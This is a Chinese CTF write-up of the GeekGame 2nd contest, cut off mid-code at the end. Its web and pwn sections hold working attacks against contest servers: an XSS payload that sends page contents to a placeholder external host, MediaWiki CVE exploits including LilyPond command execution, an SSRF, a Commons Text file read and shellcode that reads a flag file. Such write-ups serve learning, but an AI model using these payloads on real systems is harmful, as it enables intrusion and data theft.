



# GeekGame 2nd Writeup by mariodon


## 签到

一开始做这道题时感觉有点懵，因为我这使用浏览器打开 pdf，再和去年一样 Ctrl + A Ctrl + C 就把 flag 复制出来了，还真以为出了一道和去年一样的签到题呢。

后来看问卷才注意到 pdf 开了禁止复制。

这个故事告诉我们，选择正确的工具还是很重要的，可以少走一部分弯路，比如去除 pdf 权限或者手工查 Wingdings 表（


## 小北问答 · 极速版

每次必出的搜索引擎使用题。经过观察，一共有8道题，但每次只会随机问7道，就是说有一道题是可以不做的。

这次要求答题必须写交互，有点新颖，但有那么一点莫名，~~像刻意推销 pwntools~~。

先不关心交互，把答案找到了再说。

### 每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？

搜索 pku runner 可以下载到软件的 apk，包名则可以在 apk 里的 `AndroidManifest.xml` 里找到。

至于如何在这个文件里找到包名呢？

用16进制编辑器打开这个文件，可以看到文件里包含了很多 wide character string。因为猜测包名里会包含软件的名称，那么搜索 `pkurunner` 这个关键词应该能匹配上完整的包名。

搜索后匹配上了一个叫 `cn.edu.pku.pkurunner` 的字符串。

按照惯例，包名会采取反写域名的命名规则。这个字符串是符合这个命名规则的，所以可以确定这个就是包名。

### 我刚刚在脑海中想了一个介于 9825314737 到 9825315150 之间的质数。猜猜它是多少？

用 sympy 可以很方便地求出指定范围内的所有质数，但是实际算一下会发现符合的质数有不少，要一次预测成功概率还是挺低的。

结合之前发现可以放弃一题的结论，这道不是欧皇的话应该是没法一次做对的。

### 在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 10 级关卡需要多少金钱？

直接翻上一次比赛的[源代码](https://github.com/PKU-GeekGame/geekgame-1st/blob/master/src/pygame/game/server/libtreasure.py#L19)就可以找到。

实际交互的时候发现问的关卡会变，需要做一下解析。

### 视频 bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____ 访问。下划线内应填什么数字？

可以直接用 mcfx 整理的[转换脚本](https://www.zhihu.com/question/381784377/answer/1099438784)，也可以找其它的在线工具。

### 我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？

原本以为是这个 MAC 有什么特殊的厂商前缀，在 [OUI 数据库](https://ouilookup.com/)上搜了一下并没有。

后来发现有专门的无线路由器 MAC 的[数据库](https://wigle.net/)，可以通过 MAC 地址反查到路由器的经纬度。


有了经纬度以后，邮编就很好找了。我找了个在线的[反查网站](https://stevemorse.org/jcal/latlon.php)，当然 Google Map 就行。


### 访问网址 “http://ctf.世界一流大学.com” 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？

~~好家伙，居然真的有这个域名。~~

需要将中文的网址转换成 Punycode。可以用浏览器的 Dev Tools，也可以用[在线工具](https://www.punycoder.com/)。

### 北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？

搜索北京大学 gstore 可以找到这个数据库的[介绍](https://mod.icst.pku.edu.cn/demo/502411.htm)。再搜索相关论文里第一篇文章，可以在 [结果](https://dl.acm.org/doi/10.1007/s00778-013-0337-7) 里找到 doi。

### 支持 WebP 图片格式的最早 Firefox 版本是多少？

用 [Can I Use](https://caniuse.com/webp) 可以看浏览器对各个 Feature 的支持。

剩下就是写交互和拿 flag 了。

```python
from pwn import *
import sys

TOKEN = b''
p = remote('prob01.geekgame.pku.edu.cn', 10001)

p.sendlineafter(b'token:', TOKEN)
p.sendlineafter('答题。'.encode('utf-8'),'急急急'.encode('utf-8'))

for i in range(7):
    ques = p.recvline_contains('题：'.encode('utf-8'))
    sys.stdout.buffer.write(ques)
    print()

    def reply_check(ans):
        p.recvline()
        p.sendline(ans.encode())
        assert '鉴定为：答案正确'.encode('utf-8') in p.recvline()

    if b'bilibili' in ques:
        reply_check('418645518')

    elif b'd2:94' in ques:
        reply_check('80304')

    elif b'Runner' in ques:
        reply_check('cn.edu.pku.pkurunner')

    elif b'ctf.' in ques:
        reply_check('ctf.xn--4gqwbu44czhc7w9a66k.com')

    elif b'WebP' in ques:
        reply_check('65')

    elif '通过'.encode('utf-8') in ques:
        level = int(ques.split('通过'.encode('utf-8'))[1].split('第 '.encode('utf-8'))[1].split(b' ')[0])
        print(f'{level=}')
        ans = 300 + int(level ** 1.5) * 100
        reply_check(str(ans))

    elif b'gStore' in ques:
        reply_check('10.14778/2002974.2002976')

    else:
        raise ValueError('Unknown question!')

p.interactive()
```

## 编原译理习题课

很高兴拿了这题一、三小问和所有 flag 的一血（

### 玩挺大

还记得去年的 HackerGame mcfx 用了一种生成大 binary 的[方法](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/players/mcfx/writeup.md) 非预期了一道题，这里就把他的方法搬过来了。

```c
#include <stdio.h>
__attribute__((section(".text")))
char s[1 << 23]= {0};

int main()
{
    puts("Hello, world!");
}
//EOF
```

这段源码会让编译器把 1 << 23 = 8388608 字节的全局变量放在 elf 的 text 段，从而增加生成 binary 的大小。

后来经过尝试也可以放在 data 段和任意不存在的段，但是不指定 section/指定 bss 的话会没有反应。
不太确定为什么，希望明白的大佬帮忙解答一下（

至于为什么打了 Hello World，这是 HackerGame 原题的要求（

### 玩挺长

搜索到了一样的[问题](https://codegolf.stackexchange.com/questions/1956/generate-the-longest-error-message-in-c)。

回答中的报错长度不满足题目要求，需要稍作修改。

```c
#include __FILE__
p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;
p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;
p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;
p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;p;
//EOF
```

## 玩挺花

判题脚本里提到了 bug report，那就去 bug tracker 找一个 [bug report](https://gcc.gnu.org/bugzilla/show_bug.cgi?id=54080)。

没想到这个十年前的 bug 还没有修复，这就是开源项目嘛.jpg

```c++
template <class T>
class vector
{
};

template <template <typename U> class Container,
	 typename Func
	 >
vector<int> foo(const Container<int>& input, const Func &func)
{
}

template <template <typename U> class OutType,
	 typename Func1,
	 typename FuncRest
	 >
auto foo(const vector<int> &input, const Func1 &func1, const FuncRest funcrest) -> decltype(foo<vector>(foo(input, func1), funcrest))
{
	return;
}

int main()
{
	vector<int> v1;
	foo<vector>(v1, 1, 1);
}
//EOF
```

## Flag Checker

是 Java 逆向题。
Java 编译结果是一种中间语言，它包含了方法名、类名、变量类型等对于逆向来说非常有用的信息，随便找一个反编译工具即可得到非常可读的源码。

### Flag 1

阅读源码可以看到点击 button1 就会对 flag1 进行检查。
检查流程为：
1. 将输入的字符串编码成 utf8 bytes
2. 将结果进行 base64 编码
3. 将结果用自己实现的 rot13 加密。可以看到这个 rot13 实现将数字部分也进行了 rotate。因为只有10个数字，所以 rotate 5 位。
4. 将加密结果和一个特定字符串 `MzkuM8gmZJ6jZJHgnaMuqy4lMKM4` 比较。

把上面的操作反过来，rot13 再 base64 解码即可得到 flag。
因为大多数 rot13 工具是无视数字部分的，所以可以先将字母部分 rot13，剩下数字部分手动加减 5。

### Flag 2

flag2 的检查是通过调用一个叫做 `checkflag2` 的函数来进行的。
通过阅读代码可以发现这个函数是由 nashorn JS 引擎执行过的脚本提供的。

脚本的内容虽然在储存时被加密了，但是在引擎执行前需要被解密。
那么我们可以修改代码，直接把解密的脚本提取出来分析。

```java
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.charset.StandardCharsets;

Files.writeString(Paths.get("flag2.js"), var8.toString());
```

解密后得到一串混淆过的 js：
```js
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

大致可以看出来那串数组就是被编码过的 flag2 了。
但是 flag2 具体是怎么来的还不是特别清晰，需要反混淆这个函数。

试了几个在线反混淆的[工具](https://seosniffer.com/javascript-deobfuscator)，得到了一个看似不错的结果。

```js
function checkflag2(shecid) {
  return JSON.stringify(shecid.split("").map(function (lunell) {
    return lunell.charCodeAt(0);
  })) == JSON.stringify([0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0, 1, 67, 3, 16, 4, 6, 33, 232].map(function (krishank) {
    return (checkflag2 + "").charCodeAt(krishank);
  })) ? "Correct" : "Wrong";
}
```

虽然这个函数逻辑看起来有一些复杂，但实际检查逻辑不复杂，本质上还是把输入字符串转换成数组以后和解码后的 flag2 做比较。
那么手动在浏览器开发者工具执行解码吧。

解码的过程会用上 checkflag2，所以要先把整个函数执行一次，这样定义完以后才可以正常解码。

解码后得到一个由 ASCII 码组成的数组，转换后发现。。。

得到的 flag 是错误的！

很可能是反混淆的影响。

再阅读一下源码，解码过程中用上了 checkflag2 反混淆前的源码。于是我将 checkflag2 函数定义成了反混淆前的版本。再次解码，得到了正确的 flag。


## 智慧检测器

### 破坏者

第一阶段时花了不少时间用在研究和原版的差距上了，以为 bug 是 Geekgame 新引入的，没有什么发现。
第二阶段得到有穿墙 bug 的提示才开始研究怎么穿墙。

在 fuzz 过程中发现游戏检查墙壁逻辑不充分。
如果一次输入了多个 direction，只有第一个 direction 会进行检查，利用好这个 bug 就可以穿墙了。

那么怎么穿墙才会让游戏崩溃呢？猜测当玩家穿到地图外以后游戏会崩溃。试了一下，果然是这样。

## 我用108天录了个音

第二阶段放松了文件大小限制并得到提示可以拼接，
那就是需要准备5段语音和1段9.5s的静音。

随便找了个 tts 并确认使用高码率时能正确识别后，剩下基本就是调参。
音频格式的话则选择使用 libopus 编码成 ogg。

语音段采取降低采样率、降低码率、提高语速的方法后和出题人的大小差的不是太多了，
而静音段降低码率后大小反而上去了。
测试下来，只调整码率的话选择默认 64kbps 的码率的话编码后反而小一些，在2.3KB左右。
静音段出题人只用了0.5KB，这个大小实在是太大了。

后来在 ffmpeg [文档](https://ffmpeg.org/ffmpeg-codecs.html#libopus-1)里发现了 frame_duration 这个参数，
设置成120的时候输出的文件能显著减小，达到1.6KB。这个时候再拼接所有片段就满足大小要求了。

最后使用的编码命令和得到的大小(单位为字节)如下。

~~~
ffmpeg -i 1.wav -b:a 4000 -ar 8000 -c libopus 1.ogg ## 1225
ffmpeg -i 2.wav -b:a 4000 -filter:a atempo=1.2 -ar 8000 -c libopus 2.ogg ## 931
ffmpeg -i 3.wav -b:a 4000 -ar 8000 -c libopus 3.ogg ## 816
ffmpeg -i 4.wav -b:a 4000 -filter:a atempo=1.2 -ar 8000 -c libopus 4.ogg ## 1033
ffmpeg -i 5.wav -b:a 4000 -ar 8000 -c libopus 5.ogg ## 1713
ffmpeg -i silence.wav -c:a libopus -b:a 64000 -ar 8000 -frame_duration 120 silence.ogg ## 1580
ffmpeg -f concat -i concat_list.txt -c copy output.ogg ## 10861
~~~

concat list
```
file '1.ogg'
file 'silence.ogg'
file '2.ogg'
file 'silence.ogg'
file '3.ogg'
file 'silence.ogg'
file '4.ogg'
file 'silence.ogg'
file '5.ogg'
```

ffprobe 结果
```
Input #0, ogg, from 'output.ogg':
  Duration: 00:00:45.16, start: 0.006500, bitrate: 1 kb/s
  Stream #0:0: Audio: opus, 48000 Hz, mono, fltp
    Metadata:
      encoder         : Lavc59.37.100 libopus
```

## 企鹅文档

打开浏览器开发工具，过滤 XHR，再打开文档，
发现 `https://docs.qq.com/dop-api/get/sheet` 这个接口会将保护单元格的内容一起返回。

单个请求里返回的单元格数目由限制，包含的 url 不完整，需要多试几次然后拼起来。

写个脚本提取一下回复里引号内的字符，得到了完整的 url，打开来得到了一个 har。

用开发工具导入 har，找到同样的接口，把完整的回复保存出来。

需要解析的格式如下。
```json
{
    "0": { "0": 5, "2": [1, "Below is your flag"], "3": 0 },
    "24": { "0": 1, "3": 1 },
    "25": { "0": 1, "3": 1 },
    "26": { "0": 1, "3": 1 },
    "34": { "0": 1, "3": 1 },
    "35": { "0": 1, "3": 1 }
}
```

和网页上显示文档截图对照，可以发现左边的 key 其实是二维坐标编码成了 row * col_count + col 的一维格式。这里 col_count 为11，代表每行有11列。
不需要关心右边0和3的含义，有这个 key 就代表这个单元格是涂黑了的。

剩下可以写一个脚本，提取涂黑的单元格的 row 和 col，并构造一个类似的文本文件。

```python
import json
import csv

with open('data.json', 'r') as f:
    content = json.load(f)

data = {}

for k, v in content.items():
    row = int(k) // 11
    col = int(k) % 11
    current = data.get(row, [])
    current.append(col)
    data[row] = current

with open('result.txt', 'w', newline='') as f:
    writer = csv.DictWriter(f, [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10], delimiter=' ')
    for i in range(max(data.keys())):
        row_dict = {}
        for j in data.get(i, []):
            row_dict[j] = '*'
        writer.writerow(row_dict)
```

在 VSCode 预览的帮助下看到了 flag。




## 给钱不要！

审计一下网站代码，基本可以确定 XSS 的地方。

```js
function go() {
    location.href = document.getElementById('filename').value + '.jpg';
}
```

### 要钱不给！！

第二阶段得到提示，有办法把 IP 地址构造成 query。
分析 Chromium 源码，发现只有形如 `x.x.x.x` 这样由4部分组成的 IP 会被解析成 URL，否则解析成 query。

实际上，合法的 IP 可以由0到3个分割点组成。`a.b.c.d` 和 `a.b.256*c+d` 代表同一个 IP。
那么只要将自己服务器的 IP 转换一下格式，就能通过检查。

题目要求构造一个标题为`GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%`的页面。
但是文件名里不能有 %。

那只能构造一个 jpg 后缀的 html 了。

然而，Web 服务器在服务 jpg 文件时会发送 `image/jpeg` 的 MIME。
这样浏览器访问后会把 html 内容当成 jpg 来解析，导致不会处理 html 里的 title 了。

处理方法也很简单，让服务器返回 `text/html` 就可以了。

原来准备手写个简单的服务器，查了一下 nginx 支持配置扩展名和 MIME 的对应关系，修改 `/etc/nginx/mime.types` 即可。

最后用到的网页：

```html
<!DOCTYPE html>
<html>
<head>
  <title>GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%</title>
</head>
<body>
</body>
</html>
```

实际线上调试时候发现 XSS Bot 访问海外服务器有点困难，试了好几个服务器只有1个能上。。。

### 信息不漏！！！

第二问要求将 javascript: 的 URL 解析成 unknown。

分析源码看到只要符合 `(?i)javascript:([^;=().\"]*)` 的正则表达式就不会被当成 url。
这个正则代表不能有这些符号。

搜一下能看到有一个[文档](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
整理了不需要括号的 payload。

我选择了基于 setTimeout 的 payload，因为它不但不含括号，还可以用 \x 的方式表示任何字符。

构造的 payload 如下。

```js
javascript:setTimeout`fetch\x28'https://SUBDOMAIN\x2eDOMAIN/flag' + document['body']['outerHTML']\x29`
```

在本地调试通过以后，我提交了这个 payload，发现服务器没有收到新请求。
没找出原因，于是在比赛期间没做出来。

写 writeup 时突然想到，XSS Bot 会把 title 打出来，那我把 flag 一起打出来不就行了。

试了一下，还真可以了。
遗憾离场.jpg

最终可用的 payload。

```js
javascript:setTimeout`document\x2etitle\x3ddocument['body']['outerHTML']`
```

## 私有笔记

打开题目，发现是在介绍 CVE，那就搜吧。

### 知识，与你分享

第一问要求访问私有页面。

搜索 MediaWiki CVE，看看[官方公告](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)。

```
CVE-2021-45038: The "rollback" feature (action=rollback) could be passed a specially crafted parameter that allowed an attacker to view the contents of arbitrary pages, regardless of whether they had permissions to do so.
```

公告还贴心地给出了漏洞的利用方法。

```
For the rollback bug, look for action=rollback&from=... where the "from" parameter is a template transclusion (for example, from={{:private page}}). 
```

最终 payload

https://prob07-XXX.geekgame.pku.edu.cn/index.php?title=%E9%A6%96%E9%A1%B5&action=rollback&from={{:Flag}}

### 来我家做客吧

第二问给了登录账号，要 RCE。

题目给了所使用的 Wiki 的版本和安装了的扩展程序。
一看，安装了一个 2019 年的 Score。
想想就不对嘛。

搜索 score cve mediawiki，又看到了[官方公告](https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory).

能看出来我们想要找的就是 CVE-2020-29007 这个 RCE。

搜索这个 CVE ID，能看到 bug tracker 上有[利用方法](https://phabricator.wikimedia.org/T257062)。

接下来问题就是怎么拿 flag 了。

通过使用检测文件是否存在的 payload，我确定了 flag2 在 /flag2，score 保存的图片在 /var/www/html/images/ 下。

```html
<score lang="lilypond">\new Staff <<{c^#
(if (file-exists? "/var/www/html/images/") "true" "false")
}>></score>
```

那么，只要用 RCE 把 flag 拷到能读的目录，再通过浏览器下载即可。

```html
<score lang="lilypond">\new Staff <<{c^#
(number->string (system "cp /flag2  /var/www/html/images/flag"))
}>></score>
```

flag 地址：https://prob07-XXX.geekgame.pku.edu.cn/images/flag

## 企业级理解

### 赋能管理后台

审计源码，发现路由配置符合 /** 格式的 url 是不需要登录的，但是 /admin 需要。
猜测通过 /admin/ 也能访问管理后台，试了一下的确是这样。

管理后台有一个表单，我原来以为是用来添加 item 用的，所以在第一阶段没有找到 flag1，也没继续做下去。。。

第二阶段再回来看这道题，才发现这个后台其实是有查看功能的。
访问 PKU_GeekGame 这个 item 就能得到 flag。

```
curl http://prob08-XXX.geekgame.pku.edu.cn/admin/query/ -d "type=PKU_GeekGame&value=" -v
```

### 盘活业务增长

第二问要求访问 bonus 服务。
通过题目提供了的源码可以知道，bonus 服务在本机的 8080 端口上。
也就是说需要找一个办法发请求。

审计了一下提供了的 source_bak，发现这个后端有个 web client，会把 url 里 index 参数当地址访问。
而这个 index 的值是可以用任意 url encode 过了的值覆盖的。

可以想到，把完整的 bonus 服务器地址传递进去，后端就会去访问。

测试发现，直接传递完整地址的话会返回404，url encode 一次的话服务器会返回400.
而 url encode 2次的话就能顺利访问到 bonus 服务了。

```
curl http://prob08-XXX.geekgame.pku.edu.cn/admin/http%253A%252F%252Flocalhost%253A8080%252Fbonus%252F/ -v
```

### 打通整个系统

访问 bonus 服务的 source_bak 发现满足特定条件会使用 Commons Text。
里面还有一段过滤危险关键词的代码，说明这个库能干很多不该干事情。

读一下[文档](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)，
有办法直接读取文件，那么就用它来读出flag了。

```
curl http://prob08-XXX.geekgame.pku.edu.cn/admin/http%253A%252F%252Flocalhost%253A8080%252Fbonus%252F/ -d "type=CommonsText&value=\${file:utf-8:/root/flag3.txt}"
```

说起来，题目里过滤关键词的方法肯定是不够的。
就和 log4j 时候用各种方法避免检测到 jndi 的关键词一样，这个过滤应该是有办法 bypass 的。


## 这也能卷

### Flag · 摆

审计代码发现没开会员的计算器是纯前端的，不会有什么问题。

猜测 flag 在 premium.js 里面。
下载源码后发现有 `const flag0` 的字样。
拷到浏览器开发工具里跑一下，flag 就出来了。

### 简单题

只用一种指令肯定是没有办法读取文件的。

原来想有没有办法用 call 指令调用程序里的 gadget，发现保护全开了，不知道 mmap 地址和基地址差多少，走不通。

gdb 调了一下，发现 mmap 地址原来就在 rdx 寄存器里，那把 shell code 写进去就解决了。

```python
from pwn import *

context.clear(arch='amd64', os = 'Linux')
shellcode = shellcraft.cat("/flag.txt") + shellcraft.exit()

print(shellcode)

shellcode_bytes = asm(shellcode)

inst = b''
offset = 0x149 + 7

for b in shellcode_bytes:
    inst += asm(f'movb [rdx + {offset}], {hex(b)}')
    offset += 1

with open('a.bin', 'wb') as f:
    f.write(inst)
```

上面的 offset 地址甚至不需要用 gdb 调试，把题目源码里打印指令的注释打开就行。

## 编原译理习题课 · 实验班

### Flag 1

题目环境用了去年三月发布的 Rust 1.51 版本，不难想到又要找 CVE 了。

搜索 Rust CVE 看到这个[CVE大全仓库](https://github.com/Qwaz/rust-cve)，
看一下 1.51 哪些能用，然后发现 CVE-2021-28879 给了个 SEGFAULT 的 [POC](https://play.rust-lang.org/?version=stable&mode=release&edition=2018&gist=0e6f0c70e6aaaba62610f19fd9186756)。
把 `fn main()` 改成 `pub fn run()` 提交即可。


## 381654729

搜一下标题的数字了解到它是个10进制的 polydivisible number。

再阅读一下源码，题目在检查是不是16进制的 polydivisible number。
那么可以把所有符合条件的数全部找出来，依次检查是否是 flag。

```python
def check_flag(num: int):
    return b'flag{' in int.to_bytes(num ^ 2511413510786747625712715681394444512910992453565512439186, 24, 'big')

def find_polydivisible(base: int):
    """Find polydivisible number."""
    numbers = []
    previous = [i for i in range(1, base)]
    new = []
    digits = 2
    while not previous == []:
        numbers.append(previous)
        for n in previous:
            for j in range(0, base):
                number = n * base + j
                if number % digits == 0:
                    new.append(number)
                    
        previous = new
        new = []
        digits = digits + 1
    return numbers


all_data = find_polydivisible(16)
print(f"Found {len(all_data)}")

for data in all_data:
    for num in data:
        if check_flag(num):
            flag = num ^ 2511413510786747625712715681394444512910992453565512439186
            print(int.to_bytes(flag, 24, 'big'))
            break
```


## 乱码还原

### Flag 1

首先分析下源码。

```python
with open("flag1.enc","w",encoding="utf-8") as f:
    f.write(Encrypt(x).encode("utf-8").decode("shift_jis",errors="ignore"))
```

UTF-8 编码后的佛语被当作 Shift_JIS 解码了。
因为不是所有 UTF-8 字符都是有效的 Shift_JIS 字符，这么做会导致部分佛语丢失。

丢失后的文字再被 UTF-8 编码了一次，保存到了文件。
这个步骤是完全可逆的。

先把不完整的佛语恢复出来吧。

```python
with open("flag1.enc","r",encoding="utf-8") as f:
    data = f.read()
    data = data.encode('shift_jis')
with open("flag1_wip.txt","wb") as f2:
    f2.write(data)
```

接下来用任意支持 UTF-8 编码的文本编辑器打开，得到
```
佛曰��麼是梵殿皤盡皤�娑苦冥那盧羯伊罰智盡夜梵勝俱實利盧皤呼呐�帝夢梵��實呐等依皤��倒伊以亦�數怯姪尼怯無呐��神�夷��摩智呐伽恐�亦冥彌缽�
```

`�` 代表这个字符用 UTF-8 无法解码，这题是考察还原丢失了的字符，一共是16个。

用16进制编辑器打开这个文件，可以注意到几点：
1. 所有显示正常的字都可以用 E? 开头的三字节来表示
2. 所有丢失了的字都会少一字节

那么，就可以尝试用剩余的两字节，去尝试匹配完整的字库了。
匹配过程中碰到有多种可能的情况时，一定要记录下字的 offset 和所有可能的选项。
不然一会儿会后悔的.jpg

将所有16个字符还原后可以尝试解密佛语。

```python
with open("flag1_wip.txt","r",encoding="utf-8") as f:
    data = f.read()
    print(Decrypt(data))
```

如果还原的结果不正确，可能会有2个问题：

1. 对 BYTEMARK 处理不正确，导致解码后字节数不能被16整除，不符合块加密的要求，从而影响后续的 AES 解密

2. 解密出乱码

碰到第一种情况，可以看一下当前解码佛语后、解密前是多少字节。
看看离最近的16整倍数是要增加字还是减少字。
需要增加的话就看看多个字可能的情况能不能选择 BYTEMARK 字，减少的话就反回来。

第二种情况没有什么好办法，要么写脚本自动试，要么手试。
我试手试的，大概也试了几十次了。。。

## 扫雷 II

### Flag 1

分析代码可以看到 seed 是时间戳，
并且 Level 1 没用上 Secure Random。

那么打表写一个预测挂，写一下交互，就能做了。

```go
const BaseUrl = "https://prob14-XXX.geekgame.pku.edu.cn/"
const ClickUrl = BaseUrl + "click"
const InitUrl = BaseUrl + "init"
const ResetUrl = BaseUrl + "reset"

func clickBoard(x int, y int) int {
	data := url.Values{
		"x": {strconv.Itoa(x)},
		"y": {strconv.Itoa(y)},
	}

	resp, err := http.PostForm(ClickUrl, data)
	if err != nil {
		log.Fatalf("click board error %v", err)
	}
	var code map[string]interface{}
	err = json.NewDecoder(resp.Body).Decode(&code)

	if err != nil {
		log.Fatalf("click board parse error %v", err)
	}

	if _, ok := code["boom"]; ok {
		log.Fatalf("boom!")
	}
	return int(code["ok"].(float64))
}

func initBoard() {
	data := url.Values{
		"level": {"1"},
	}

	resp, err := http.PostForm(InitUrl, data)

	if err != nil {
		log.Fatalf("init board error %v", err)
	}

	var code map[string]string
	err = json.NewDecoder(resp.Body).Decode(&code)

	fmt.Printf("%v", code)
}

func resetBoard() {
	resp, err := http.Post(ResetUrl, "application/json", nil)
	if err != nil {
		log.Fatalf("reset error %v", err)
	}

	var code map[string]string
	_ = json.NewDecoder(resp.Body).Decode(&code)
}

func showBoard(board Board, marks Board, show bool) (result [16][16]int) {
	for i := 0; i < 16; i++ {
		for j := 0; j < 16; j++ {
			if (marks[i]>>j)&1 == 0 {
				result[i][j] = -2
			} else {
				result[i][j] = nearCount(board, i, j)
			}
			if show {
				fmt.Printf("%d ", result[i][j])
			}

		}
		if show {
			fmt.Println()
		}

	}
	return
}

func main() {
	baseSeed := time.Now().UnixMilli()
	resetBoard()
	initBoard()
	fullMarks := [16]int{0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff, 0xffff}

	var curMarks Board
    // +-3s
	for i := int64(-3000); i < 3000; i++ {
		seed := baseSeed + i
		rand.Seed(seed)
		var genBoard func() Board
		var curBoard Board

		genBoard = genBoard1
		curBoard = genBoard()

		result := showBoard(curBoard, fullMarks, false)
		resultMap[seed] = result
		boardMap[seed] = curBoard
	}

	fmt.Println()
	for {
		var i, j, k int

		i, j = randomPlace(curMarks)

		fmt.Printf("click %d %d\n", i, j)
		k = clickBoard(i, j)
		for seed, board := range resultMap {
			if board[i][j] != k {
				delete(resultMap, seed)
				delete(boardMap, seed)
			}
		}

		fmt.Printf("%d maps remaining\n", len(resultMap))

		if len(resultMap) == 0 {
			log.Fatalln("no more results")
		}

		if len(resultMap) < 5 {
			for _, board := range boardMap {
				showBoard(board, fullMarks, true)
				fmt.Println()
				fmt.Println("--------------------")
			}
			os.Exit(0)
		}
		curMarks[i] |= 1 << j
	}
}
```

如果没在试错过程中点到雷的话，这个挂会在剩余5个地图的时候打印剩余可能的情况，
手做几个排除到只剩1种情况的时候把剩余所有的点掉就行了。
点到雷的话，因为远程的 seed 刷新了，本地需要重新预测。

因为地图比较大，我写了个点击脚本。

```python
import requests

URL = 'https://prob14-XXX.geekgame.pku.edu.cn/click'

data = []
with open("map.txt", "r") as f:
    for l in f:
        row = l.strip().split(' ')
        print(row)
        assert len(row) == 16
        data.append([int(x) for x in row])

def click(x, y):
    print(f'Click {x} {y}')
    r = requests.post(URL, data={'x': str(x), 'y': str(y)})
    r.raise_for_status()
    result = r.json()
    assert 'ok' in result
    if 'flag' in result:
        print(result)

for i in range(16):
    for j in range(16):
        if data[i][j] != -1:
            click(i, j)
```

### Flag 2

Flag 2 在假随机上用了 Secure Random 提高了预测难度。

```go
securerand.Read(secureVal)
rn := int(rand.Uint64()%20221119) + int(secureVal[0])
for i := 0; i < rn; i += 1 {
    rand.Uint64()
}
```

因为我们没法预测 secureVal[0] 的值，每个随机种子都会要多试 256 种情况。
本地试下来生成地图会非常慢。
不太了解怎么做，摆了（


## 方程组

### Flag 1

第一问要求解一个没有自由变量的26元线性方程组，用 sympy 解就好。

```python
from decimal import *
import sympy

